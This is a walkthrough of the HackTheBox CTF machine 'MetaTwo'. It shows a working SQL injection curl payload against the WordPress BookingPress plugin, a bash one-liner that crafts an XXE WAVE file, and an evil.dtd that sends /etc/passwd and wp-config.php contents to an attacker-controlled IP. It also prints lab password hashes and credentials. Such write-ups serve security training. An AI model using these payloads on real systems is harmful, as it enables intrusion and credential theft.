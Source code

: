 ```yaml
---
layout: post
title: MetaTwo
date: 2022-12-30 18:32:00 -0500
categories: [Walkthrough, Hackthebox, CTF]
tags: [linux, Wordpress, xmlrpc, boookingpress, wordpress, CVE-2021-29447]
---
```


Starting off with nmap - `nmap -Pn -p- metatwo.htb -vvvv -oN nmap_initial` 

We find a port 80 webserver trying to redirecto to metapress.htb lets add that to /etc/hosts and check it.

find a login page @ http://metapress.htb/wp-login.php.

we can start off by checking the site with `wpscan`

- `wpscan -e ap --api-token api --url http://metapress.htb -o ~/Documents/htb/MetaTwo/wpscan.2 --plugins-detection mixed`

# Wordpress bookingpress 1.0.11 Unauthenticated SQL Injection

we find a vulnerability in the `/events/` which is the bookingpress plugin. 

- https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357

Extract the nonce from the source code of the events page and craft a curl command

- `curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \ --data 'action=bookingpress_front_get_category_services&_wpnonce=3392862f44&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'`

This works and we can also use <a href="https://github.com/hadrian3689/wp_bookingpress_1.0.11/blob/main/sqli.py">this exploit</a> to dump the user credentials.

```
CVE-2022-0739 WordPress BookingPress Plugin< 1.0.11 Unauthenticated SQL Injection

Credentials are:
--------------------------------------------------
Username: admin
Email: admin@metapress.htb
Password: $P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
--------------------------------------------------
Username: manager
Email: manager@metapress.htb
Password: $P$B4aNM28N0E.tMy\/JIcnVMZbGcU16Q70
--------------------------------------------------
```

Running rockyou for an eternity againse the admin didnt give us anything, and running aginst manager gets us `partylikearockstar` 

# WordPress version 5.6.2 Exploitation

<a href="https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/">Here</a> is a great article explaining the process we will use in the XXE vuln. Basically now that we have credentials we can create a wave file with malicious XML and upload the wave and wordpress will read the metadata and send us back what we want it to read no the system.

We start by generating a WAVE file in bash that contains a payload calling back to the evil.dtd we will setup on attacker

- `echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.14.123:6969/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav`

then we create evil.dtd

```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.123:6969/?p=%file;'>" >
```

And start a webserver in the dir. once we upload we should get a callback with the base64 encoded file which we can decode. So this does work, but /etc/passwd and we find a user jnelson. Unfortunately unable to get the user ssh file. So going to look for the wp-config.php file for more information. `/etc/nginx/sites-enabled/default` tells us the blog is in `/var/www/metapress.htb/blog` so lets edit the dtd file to display wp-config.php.

We do find some ftp credentials in here lets check that out

```
define( 'FS_METHOD', 'ftpext' );
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
define( 'FTP_HOST', 'ftp.metapress.htb' );
define( 'FTP_BASE', 'blog/' );
define( 'FTP_SSL', false );
```

And lets upload a reverse shell. Oh no permissions so looking around we find a php-mailer and checknig inside are jnelson's ssh credentials. 

```
$mail->Username = "jnelson@metapress.htb";
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";
```

# Linux Privesc

Pretty simple, the use has a file with root ssh passwords. cat ssh then su to root

